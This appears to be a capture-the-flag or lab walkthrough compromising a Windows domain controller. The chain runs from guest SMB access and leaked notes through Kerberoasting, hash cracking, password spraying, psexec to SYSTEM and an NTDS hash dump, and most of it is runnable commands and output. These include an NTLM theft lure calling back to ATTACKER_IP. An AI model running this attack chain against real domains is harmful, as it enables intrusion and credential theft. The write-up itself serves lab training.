## Attack Chain Summary

```
Guest SMB Read → Creds in notes.txt → Kerberoasting → Hash Crack → Password Spray → SYSTEM
```

---

## Enumeration

### Port Scan

```bash
rustscan -b 500 -a 10.1.242.252 -- -sC -sV -Pn
```



**Key open ports:**

| Port | Service |
|------|---------|
| 53 | DNS |
| 88 | Kerberos |
| 135/139/445 | SMB / RPC |
| 389/636/3268/3269 | LDAP (Active Directory) |
| 3389 | RDP |
| 5985 | WinRM |
| 9389 | .NET Message Framing |

From the LDAP and RDP output we confirm the domain and hostname:

```
Domain : DRY.MARTINI.BARS
DC     : DC01.DRY.MARTINI.BARS
OS     : Windows Server 2025 Build 26100
```

---

## Initial Enumeration

### Generate Hosts File

```bash
nxc smb 10.1.242.252 -u '' -p '' --generate-hosts-file hosts
```

Add the output to `/etc/hosts`:

```
10.1.242.252    DC01.DRY.MARTINI.BARS DRY.MARTINI.BARS DC01
```



### SMB — Anonymous Access

```bash
nxc smb DRY.MARTINI.BARS -u '' -p '' --shares
```

Anonymous auth works but no share access (no read/write on any share).



### SMB — Guest Access

```bash
nxc smb DRY.MARTINI.BARS -u 'e' -p '' --shares
```



**Result:**

| Share | Permissions |
|-------|-------------|
| ADMIN$ | — |
| C$ | — |
| IPC$ | READ |
| NETLOGON | READ, WRITE |
| notes | READ, WRITE |
| SYSVOL | READ, WRITE |

`notes` share with READ/WRITE access — that's interesting.

### RID Brute Force — User Enumeration

```bash
nxc smb DRY.MARTINI.BARS -u 'e' -p '' --rid-brute
```

Filtering `SidTypeUser` only:

```
Administrator
Guest
krbtgt
mprice
athena.t0
ATHENA_SVC
```

Save these to `users.txt`.



---

## Foothold

### Checking the `notes` Share

```bash
smbclient //10.1.242.252/notes -N
smb: \> get notes.txt
```

**notes.txt content:**

```
- Order more gin for lakeside
- Look for an engagement ring
- Check that notes works from Linux Mint

creds
mprice:*martini*
```

First creds:

```
mprice : *martini*
```


### NTLM Theft Attack (Failed)

With READ/WRITE on the `notes` share, an NTLM theft attack was attempted using [ntlm_theft](https://github.com/Greenwolf/ntlm_theft):

```bash
python3 ntlm_theft.py -g all -s <ATTACKER_IP> -f meeting
```

Uploaded the malicious files and started Responder:

```bash
smbclient //10.1.242.252/notes -N
smb: \> put meeting.lnk
smb: \> put desktop.ini

sudo responder -I tun0
```

No callback received — attack did not work on this target.



---

## Privilege Escalation Path 1 — Kerberoasting

### mprice — Privilege Check

With valid creds, always check access over SMB, WinRM, and RDP first:

```bash
nxc smb    DRY.MARTINI.BARS -u 'mprice' -p '*martini*'
nxc winrm  DRY.MARTINI.BARS -u 'mprice' -p '*martini*'
nxc rdp    DRY.MARTINI.BARS -u 'mprice' -p '*martini*'
```

No elevated privileges over any service. Move on.




### Kerberoasting

> Rule of thumb: valid creds → try Kerberoasting. Username-only → try AS-REP Roasting.

```bash
nxc ldap DRY.MARTINI.BARS -u 'mprice' -p '*martini*' --kerberoasting output.txt
```

**Result — one kerberoastable account found:**

```
sAMAcountName : ATHENA_SVC
memberOf      : Remote Management Users, Remote Desktop Users
pwdLastSet    : 2026-01-20
lastLogon     : <never>

$krb5tgs$23$*ATHENA_SVC$DRY.MARTINI.BARS$DRY.MARTINI.BARS\ATHENA_SVC*$837c3ebd...
```



### Crack the Hash

```bash
john output.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
ATHENA_SVC : 1dirtymartini
```



---

## Privilege Escalation Path 2 — Password Spraying

### ATHENA_SVC — Privilege Check

```bash
nxc winrm DRY.MARTINI.BARS -u 'ATHENA_SVC' -p '1dirtymartini'
nxc rdp   DRY.MARTINI.BARS -u 'ATHENA_SVC' -p '1dirtymartini'
nxc smb   DRY.MARTINI.BARS -u 'ATHENA_SVC' -p '1dirtymartini'
```

**WinRM → Pwn3d!**
RDP also authenticates but denies login (not in local Administrators group).




### WinRM Shell

```bash
evil-winrm -i 10.1.242.252 -u 'ATHENA_SVC' -p '1dirtymartini'
```

Shell obtained as `ATHENA_SVC`, but no admin privileges. Checking `whoami /priv` shows only standard user tokens. Let's move on with rdp 





### RDP Access


```bash
xfreerdp3 /v:10.1.242.252 /u:ATHENA_SVC /p:'1dirtymartini'
```

I don't have access to rdp




### Password Spray — All Users

ATHENA_SVC and athena.t0 share the same password (password reuse):

```bash
nxc smb DRY.MARTINI.BARS -u users.txt -p '1dirtymartini' --continue-on-success
```

**Result:**

```
[+] DRY.MARTINI.BARS\athena.t0:1dirtymartini (Pwn3d!)
[+] DRY.MARTINI.BARS\ATHENA_SVC:1dirtymartini
```

`athena.t0` has admin access over SMB — **game over**.





---

## Root / SYSTEM

### PSExec as athena.t0

```bash
impacket-psexec DRY.MARTINI.BARS/athena.t0:'1dirtymartini'@10.1.242.252
```

```
C:\Windows\System32> whoami
nt authority\system
```



---

## Post-Exploitation — NTDS Dump

```bash
nxc smb DRY.MARTINI.BARS -u athena.t0 -p '1dirtymartini' --ntds
```

Dumps all domain hashes including `krbtgt` NT hash, enabling Golden Ticket attacks.




---

## Credentials Summary

| User | Password / Hash | Access |
|------|----------------|--------|
| mprice | `*martini*` | Domain user |
| ATHENA_SVC | `1dirtymartini` | WinRM, RDP |
| athena.t0 | `1dirtymartini` | SMB Admin (Pwn3d!) |

---

## Key Takeaways

- **Guest SMB access** can expose sensitive files even without real credentials.
- **Always check shares** before moving to more complex attacks.
- **Kerberoasting** works whenever you have valid domain credentials — service accounts with SPNs are high-value targets.
- **Password reuse** across accounts (especially service accounts) is common and dangerous.
- `--ntds` via nxc is the fastest path to dumping the entire domain once you have admin SMB.